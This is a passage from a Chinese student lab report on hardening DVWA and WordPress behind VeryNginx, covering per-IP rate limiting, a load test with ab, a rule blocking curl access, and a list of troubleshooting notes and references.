


##### 4.2 限制 DVWA 站点的单 IP 访问速率为每秒请求数 < 50；限制 Wordpress 站点的单 IP 访问速率为每秒请求数 < 20；超过访问频率限制的请求直接返回自定义**错误提示信息页面 -4**；

4.2.1 配置规则

添加 response 响应规则


添加 Frequency Limit 频率限制规则


4.2.2 重启 Nginx 使修改配置生效

```bash
#重启 Nginx
systemctl restart nginx.service
```


4.2.3 压力测试（配置效果）

```bash
# 下载包以使用ab进行测试
sudo apt install apache2-utils -y

#测试 wp.sec.cuc.edu.cn 和 dvwa.sec.cuc.edu.cn
ab -c 10 -n 100 http://wp.sec.cuc.edu.cn/
ab -c 10 -n 100 http://dvwa.sec.cuc.edu.cn/
```


可以看到拦截规则确实起到了作用


##### 4.3 禁止 curl 访问

4.3.1 配置规则

添加 matcher 匹配规则


添加 response 响应规则


添加 Filter 过滤条件


4.3.2 重启 Nginx 使修改配置生效

```bash
#重启 Nginx
systemctl restart nginx.service
```


4.3.3 配置效果


## 遇到的问题及解决方法

- 最开始由于我需要查阅资料以及顺畅地访问 GitHub 而在宿主机上开着代理网络，导致后面无论我怎么配置都无法顺利访问到配置的网页。在一次偶然的情况下代理掉线了我才反应过来原因。
- 配置好 Nginx 后准备测试一下安装情况，发现进入网页后出现的是 Apache2 的默认页面（参考 **实验过程 2.3.3**）。后来查看了开发者工具里的host字段可以发现其实服务还是 Nginx 提供的，只不过 Nginx 和 Apache2 共用了一个根文件夹，调用了  Apache2 的默认页面并展示。
- 一开始同时修改了 VeryNginx 和 Nginx 监听开放端口，导致部分实验无法响应 VeryNginx 的配置，也就是 VeryNginx 配置失效（当然也可能不是因为这个原因，刚开始实验的时候步骤比较杂乱）。后来我只修改了 Nginx 只监听端口，用 VeryNginx 进行反向代理（用 VeryNginx 监听的 80 端口）。
- 最开始配置 wordpress 和 DVWA 时是在 /etc/nginx/sites-available/default 文件里配置的了了两个服务。后来做后面的实验的时候文件路径、配置、网页等方面时常报错。于是我参考了其他同学的方法，在 /etc/nginx/sites-enabled/ 目录下建立网页文件夹并设置软连接（我现在也没搞懂设置软连接是为了做什么），让整个配置过程更有条理。
- 在热修复 wordpress 4.7 的漏洞时，无法重现漏洞（参考 **实验过程** **3.5**）。
- 在数次修改配置后发现配置根本没生效，于是我在每次修改配置后都检查了代码正确性，并重启（重载）了 Nginx 服务。
- 在实现 VeryNginx 的 Web 管理页面仅允许白名单上的访客来源 IP 要求时，由于规则把自己的 host-only 地址屏蔽掉了，导致我自己不能登录上自己的 VeryNginx 服务器配置页面，也就是自己把自己锁在外面了。后来查看了黄药师的实验视频，找到了 VeryNginx 的配置文件，在虚拟机里将对应规则删除解决了问题。
- 实验最开始都是自己摸索，把系统搞得很乱，到最后只能回滚到最开始，然后重新开始实验（甚至我怕以前的实验环境影响本次实验我又重装了一个虚拟机）。


## 参考资料

- [How To Install WordPress with LEMP on Ubuntu 18.04](https://www.digitalocean.com/community/tutorials/how-to-install-wordpress-with-lemp-on-ubuntu-18-04)
- [How To Install Linux, Nginx, MySQL, PHP (LEMP stack) on Ubuntu 20.04](https://www.digitalocean.com/community/tutorials/how-to-install-linux-nginx-mysql-php-lemp-stack-on-ubuntu-20-04)
- [VeryNginx](https://github.com/alexazhou/VeryNginx/blob/master/readme_zh.md)
- [WordPress/Nginx](https://www.nginx.com/resources/wiki/start/topics/recipes/wordpress/)
- [WordPress < 4.7.1 - Username Enumeration](https://www.exploit-db.com/exploits/41497/)
- [【Nginx】重启报错，端口重复占用无法解决](https://blog.csdn.net/weixin_52269666/article/details/122933619)
- [DVWA](https://github.com/digininja/DVWA)
